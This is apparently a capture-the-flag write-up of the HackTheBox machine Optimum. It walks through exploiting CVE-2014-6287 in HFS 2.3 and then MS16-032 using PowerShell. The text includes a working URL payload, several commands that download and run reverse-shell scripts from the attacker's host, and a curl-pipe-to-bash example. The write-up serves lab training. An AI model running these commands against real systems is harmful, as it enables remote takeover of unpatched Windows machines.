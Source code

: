 ```yaml
---
title: HackTheBox - Optimum (ft. PowerShell)
thumbnail: optimum-thumb.png
---
```


Optimum was a fun box with which while the write-up says to use Metasploit, can be done almost entirely with PowerShell. This makes it good practice for someone like me who has never used PowerShell to learn some basic things.

![image-alternative](https://cdn.halcyonnouveau.xyz/blog/img/optimum-nmap.png)

Our initial nmap scans only show one port open running HttpFileServer (HFS) version 2.3, which is vulnerable to [CVE-2014-6287](https://www.cvedetails.com/cve/CVE-2014-6287/). From the description it _"allows remote attackers to execute arbitrary programs via a %00 sequence in a search action."_ Basically this just allows us to execute HFS template macros by just sending a null byte (%00) to the search item. Metasploit has the module **exploit/windows/http/rejetto_hfs_exec** to exploit this vulnerability and get a meterpreter shell, but to get a reverse shell in PowerShell, we are going to do it manually.

Using [this reference guide](http://www.rejetto.com/wiki/index.php?title=HFS:_scripting_commands), we can see that the command we want is `{.exec | A.}`, where `A` is the file to run. In order to get a reverse shell, our script will want to look something like: `{exec | powershell.exe ReverseShell.ps1}`, which will run the "ReverseShell.ps1" script in PowerShell. The reverse shell script we will be using comes from [Nishang](https://github.com/samratashok/nishang), which is a collection of PowerShell scripts used for pen testing. Specifically we want to use [Invoke-PowerShellTcp.ps1](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1). Download it and add this line to the bottom of the file to make the `Invoke-PowerShellTcp` function run when the script is executed without any arguments:

    Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.3 -Port 4444

Our IP address is `10.10.14.3` and we want to listen on port `4444`. In order to get this script into the target machine, we will setup our own HTTP server from where the file can be downloaded from. This can be done using a basic Python module form the command line:

    # Make sure you are in the same directory as the reverse shell script
    $ python -m SimpleHTTPServer # for Python 2
    $ python -m http.server # for Python 3

This will setup a HTTP server which we can access from our IP address `(10.10.14.3)` on port `8000` (by default). Okay, so now we need a way to cause our target machine to download and run this script. On a Linux box with Bash this would be a simple:

    curl http://10.10.14.3:8000/ReverseShell.sh | bash

But on PowerShell it looks a bit different:

    IEX(New-Object System.Net.WebClient).DownloadString('http://10.10.14.3:8000/Invoke-PowerShellTcp.ps1')

Because this isn't intended to be a tutorial on PowerShell (I intend to do that later), for now I'll just say that this command is almost identical in what it does to the curl command above. That is - it downloads the reverse shell script and then runs it.

Now is finally time to do the exploit. We will open up netcat as our listener on port 4444 with "nc -lvnp 4444" and paste this into the search URL:

    /?search=%00{.exec|C%3a\Windows\SysNative\WindowsPowershell\v1.0\powershell.exe+IEX(New-Object+System.Net.WebClient).DownloadString('http%3a//10.10.14.4%3a8000/Invoke-PowerShellTcp.ps1').}  Without URL encoding it should look like this:

    /?search=%00{.exec|C:\Windows\SysNative\WindowsPowershell\v1.0\powershell.exe IEX(New-Object+System.Net.WebClient).DownloadString('http://10.10.14.4:8000/Invoke-PowerShellTcp.ps1').}

You can see at the start we use the null terminator (%00) then execute our command from `powershell.exe` located in `C:\Windows\SysNative\WindowsPowershell\v1.0\` which is the 64bit version of PowerShell.

![image-alternative](https://cdn.halcyonnouveau.xyz/blog/img/optimum-ncat.png)

We can now get `user.txt` from the current directory.

Normally to get root with Metasploit you could use **local_exploit_suggester**. But we will use [Sherlock](https://github.com/rasta-mouse/Sherlock), which is a script to find missing software patches for privesc. Download it and add this line to the bottom of the script:

    Find-AllVulns

Now we will invoke it from our shell with:

    IEX(New-Object System.Net.WebClient).DownloadString('http://10.10.14.3:8000/Sherlock.ps1')

This will go through every vulnerability, but the one we are interested in is this (MS16-032):

![image-alternative](https://cdn.halcyonnouveau.xyz/blog/img/optimum-sherlock.png)

`MS16-032` is a vulnerability could allow elevation of privilege if the Windows Secondary Logon Service fails to properly manage request handles in memory.

In order to exploit this vulnerability we will use [this script](https://github.com/EmpireProject/Empire/blob/master/data/module_source/privesc/Invoke-MS16032.ps1) form the Empire exploitation framework for PowerShell. As usual add this line at the bottom to run the function when it is downloaded.

    Invoke-MS16032 -Command "IEX(New-Object System.Net.WebClient).DownloadString('http://10.10.14.4:8000/Invoke-PowerShellTcp-MS16032.ps1')"

As you can see we are creating another reverse shell, but because of the `MS16-032` exploit, we will run it as root. Also note that you can't use the same port that your current shell is using, so you will have to create another script and netcat instance with a different port. I will be using port `4448`.

Now we run the command from our shell to get the script:

    IEX(New-Object System.Net.WebClient).DownloadString('http://10.10.14.3:8000/Invoke-MS16032.ps1')

![image-alternative](https://cdn.halcyonnouveau.xyz/blog/img/optimum-root.png)

And now we are root. The flag is in `C:\Users\Administrator\Desktop\root.txt`.
